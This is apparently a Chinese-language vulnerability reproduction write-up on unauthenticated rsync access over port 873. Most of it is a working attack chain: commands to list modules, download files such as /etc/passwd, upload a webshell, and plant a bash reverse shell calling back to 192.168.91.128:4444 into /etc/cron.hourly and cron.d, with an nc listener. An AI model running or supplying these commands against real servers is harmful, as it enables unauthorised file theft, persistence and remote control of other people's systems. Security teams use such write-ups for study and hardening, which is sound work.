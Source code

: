 Rsync 未授权访问漏洞
====================

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：![1.png](resource/Rsync未授权访问漏洞/media/rId24.png)

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

![2.png](resource/Rsync未授权访问漏洞/media/rId25.png)

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

![3.png](resource/Rsync未授权访问漏洞/media/rId26.png)

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

![4.png](resource/Rsync未授权访问漏洞/media/rId27.png)

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
